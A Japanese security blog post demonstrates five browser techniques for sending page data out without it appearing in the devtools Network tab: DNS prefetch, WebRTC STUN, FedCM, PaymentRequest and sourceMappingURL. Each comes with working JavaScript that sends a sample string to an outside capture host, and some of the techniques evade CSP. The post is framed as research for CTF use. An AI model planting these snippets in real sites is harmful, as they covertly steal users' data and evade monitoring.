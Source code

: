 # ブラウザ開発者ツールのネットワークタブに表示されない情報送信手法

## はじめに
はじめまして、セキュリティエンジニアのSatoki ([@satoki00](https://x.com/satoki00)) です。今回はブラウザの開発者ツールのネットワークタブから隠れて、Webサイト内の情報を送信する手法をまとめます。所謂Exfiltrationというやつです。中にはCSPの制限をBypassするために用いられるテクニックもあります。CTFなどで安全に使ってください。

## 前提
発端はWeb上でテキストの文字数をカウントできるサイトが閉鎖する際の話です。カウント対象のテキストデータがサイト運営 (やサイトを改竄した攻撃者) に盗み取られていないかという議論が巻き起こっていました。「盗み取られていない」側の主張は、ブラウザの開発者ツールのネットワークタブにリクエストを送信した形跡がないというものでした。ここで **ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** といった疑問が生まれます。確かにfetchやXMLHttpRequestを用いて外部へデータを送信すると、ネットワークタブにリクエストの詳細が表示されます。とても気になりますね。

![example.png](images/example.png)  
ネットワークタブにリクエストの詳細が表示される  


ちなみに、件の文字数カウントサイトはローカルで文字数をカウントする設計で、安全だったのであろうと考えています (HTTPS未対応だったのでMITMできるという話は置いておく) 。

## テクニック
**ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** の答えは否です。よく考えれば分かるのですが、実際にJavaScriptで送信するテクニックを紹介します。テクニックのゴールは、"文字数カウントのために貼り付けられたテキストを、ネットワークタブに表示させることなく送信する"です。ここではサイト運営が悪人か、サイトが改竄されたかを問いません。ちなみにページのcloseを検知しての送信や時間差での送信などは禁止です 。シグナリング時のWebSocketも怪しすぎるのでアウトです。

以下が今回の検証環境です。  
- Google Chrome 126.0.6478.127 (Firefoxには生えていないWebAPIがあるので注意)  
- [RequestBin](https://pipedream.com/requestbin) (HTTPリクエストの受信)  
- [mess with dns](https://messwithdns.net/) (DNSリクエストの受信)  

送信するデータの例として文字列 `Satoki_no_himitsu` を用います。他の文字列でもbase64やhexに変換すれば、やることは変わりません。長さが問題であれば分割すれば良いです。

### DNS Prefetch
ページ読み込みの速度向上のため、ブラウザが事前に名前解決を行う仕組みを利用します。HTML中に`<link rel="dns-prefetch" href="example.com">`と記述することで利用できます。ブラウザの設定で「ページをプリロードする」がoffの場合には利用できません。

```js
var body = document.getElementsByTagName("body")[0];
body.innerHTML = body.innerHTML + '<link rel="dns-prefetch" href="//' + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + '.papaya260.messwithdns.com">';
```

![dns_prefetch.png](images/dns_prefetch.png)  
受信したリクエスト  

### WebRTC
WebRTCのコネクション時のSTUNサーバへのDNSリクエストを利用します。未検証ですがSTUNサーバの認証のためのusernameとして送信したい情報を設定する手法もあるようです。

```js
p = new RTCPeerConnection({
    iceServers: [{
        urls: "stun:" + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + ".rhino232.messwithdns.com"
    }]
});
p.createDataChannel("");
p.setLocalDescription();
```

![webrtc.png](images/webrtc.png)  
受信したリクエスト  


### FedCM
IdPから認証情報を取得する際のリクエストURLを利用します。認証情報を保存する際のアイコンのURLとして情報を送信する手法も確認されていますが、ユーザにダイアログが出現するため今回はスコープ外とします。セキュアコンテキストでのみ利用できます。

```js
await navigator.credentials.get({
    identity: {
        providers: [{
            configURL: "https://enbx53nv6g23p.x.pipedream.net/" + "?text=Satoki_no_himitsu",
            clientId: "satoki",
        }, ],
    },
});
```

![fedcm.png](images/fedcm.png)  
受信したリクエスト  


### PaymentRequest
Payment Request APIのコンストラクタに決済手段としてURLを渡すことで、リクエストが発される仕組みを利用します。セキュアコンテキストでのみ利用できます。

```js
new PaymentRequest(
    [{
        supportedMethods: "https://envycdb25h1v.x.pipedream.net/" + "?text=Satoki_no_himitsu",
    }, ], {
        total: {
            label: "total",
            amount: {
                value: "10000",
                currency: "USD"
            },
        },
    },
);
```

![paymentrequest.png](images/paymentrequest.png)  
受信したリクエスト  

### sourceMappingURL
ブラウザがminifyなどされる前のソースコードを取得する機能である、SourceMapを利用します。開発者ツールを開いた場合 (Firefoxではデバッグタブを開いた場合) にのみリクエストが発生します。

```js
var script = document.createElement("script");
script.text = "//# sourceMappingURL=https://en74n4g1y5i1j.x.pipedream.net/?text=" + "Satoki_no_himitsu";
document.body.appendChild(script);
```

![sourcemappingurl.png](images/sourcemappingurl.png)  
受信したリクエスト  


## おわりに
**いかがでしたか！**  
ブラウザの開発者ツールのネットワークタブに表示が無くとも、外部に情報が送信されている可能性があることがわかりましたね。他にも様々な手法があるかと思いますので、発見したら教えてください。


※ 本記事は2024/04/02にX (旧Twitter) にポストしたもの+αのまとめです。それ以降でどこかにまとめられているかもしれませんが、私の知るところではありません。

## 参考文献
- [HackTricks / CSP Exfiltration Bypasses](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#csp-exfiltration-bypasses)  
- [@st98さんのXポスト](https://x.com/st98_1f512/status/1787857217557070142)  
- [@melonattackerさんのXポスト](https://x.com/melonattacker/status/1787839408458416417)  
- [MDN / Federated Credential Management (FedCM) API](https://developer.mozilla.org/en-US/docs/Web/API/FedCM_API)  
- [MDN / Payment Request API](https://developer.mozilla.org/en-US/docs/Web/API/Payment_Request_API)  
- [@XssPayloadsさんのXポスト](https://x.com/XssPayloads/status/792683058931625984)  